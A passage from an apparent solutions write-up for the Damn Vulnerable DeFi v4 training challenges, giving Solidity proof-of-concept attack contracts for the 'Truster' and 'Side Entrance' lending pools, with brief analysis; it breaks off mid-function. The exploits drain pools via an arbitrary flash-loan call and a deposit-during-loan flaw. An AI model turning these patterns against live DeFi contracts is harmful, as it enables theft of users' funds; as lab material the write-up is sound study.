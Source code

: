 **POC**

See [test/truster/Truster.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/truster/Truster.t.sol)

```solidity
function test_truster() public checkSolvedByPlayer {
    AttackTruster attackTruster = new AttackTruster(address(pool), address(token), recovery, TOKENS_IN_POOL);
}

contract AttackTruster {
    constructor (address _pool, address _token, address _recovery, uint256 tokens) payable {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), tokens);
        pool.flashLoan(0, address(this), _token, data);
        DamnValuableToken token = DamnValuableToken(_token);
        token.transferFrom(_pool, _recovery, tokens);
    }
}
```

Run `forge test --mp test/truster/Truster.t.sol --isolate` to validate test

---

## 4.SIDE ENTRANCE

**Objective**

_from `_isSolved()` in test_

1. _All rescued funds sent to recovery account_

**Attack Analysis**

- The attack can be executed by asking a flahs loan through `flashLoan()`and then depositing the total value in the same call using `deposit()`.

**POC**

See [test/side-entrance/SideEntrance.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/side-entrance/SideEntrance.t.sol)

```solidity
function test_sideEntrance() public checkSolvedByPlayer {
    Attack attackPool = new Attack(address(pool));
    attackPool.exploit(ETHER_IN_POOL, recovery);
}

contract Attack {
    SideEntranceLenderPool private pool;

    constructor (address _pool) {
        pool = SideEntranceLenderPool(_pool);
    }

    receive() external payable {}

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    function exploit(uint256 _amount, address _recovery) external{
        pool.flashLoan(_amount);
        pool.withdraw();
        (bool success, ) = _recovery.call{value: _amount}("");
        if(!success) console.log("Transfer failed");
```